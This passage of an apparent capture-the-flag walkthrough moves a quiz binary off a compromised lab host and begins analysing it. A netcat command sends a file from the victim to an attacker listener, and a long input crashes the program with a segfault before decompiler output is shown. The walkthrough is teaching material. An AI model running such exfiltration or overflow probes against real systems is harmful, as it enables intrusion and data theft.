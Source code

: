 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`nc -lnvp 5555 > ./shop`:
```
listening on [any] 5555 ... ←
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`cat /opt/quiz/shop | nc 192.168.56.118 5555 -q 0`

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.132] 42868 ←
```

`ls -l ./shop`:
```    
-rw-rw-r-- 1 kali kali 16632 Oct  3 08:23 ./shop
```

`chmod u+x ./shop`

`./shop`:
```
Hey guys, I have prepared this little program to find out how much you know about me, since I have been your administrator for 2 years.
If you get all the questions right, you win a teddy bear and if you don't, you win a teddy bear and if you don't, you win trash
What is my favorite OS?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ←
Nope!!
zsh: segmentation fault  ./shop ←
```

`cutter ./shop`

`Decompiler (main)`:
```c
// WARNING: [rz-ghidra] Detected overlap for variable var_1ch
// WARNING: [rz-ghidra] Detected overlap for variable var_84h

undefined8 main(int argc, char **argv) {
    int32_t iVar1;
    char **var_38h;
    int var_2ch;
    int64_t var_28h;
    int64_t var_20h;
    char *var_18h;
    char *s;

    var_28h = 0x2e73746c75736572;
    var_20h._0_4_ = 0x747874;
    
    s = "Hey guys, I have prepared this little program to find out how much you know about me, since I have been your administrator for 2 years.";
    var_18h = "If you get all the questions right, you win a teddy bear and if you don’t, you win trash.";

    puts(s);
    puts(var_18h);

    var_20h._4_4_ = 0;

    iVar1 = question_1(); ←
    var_20h._4_4_ += iVar1;
```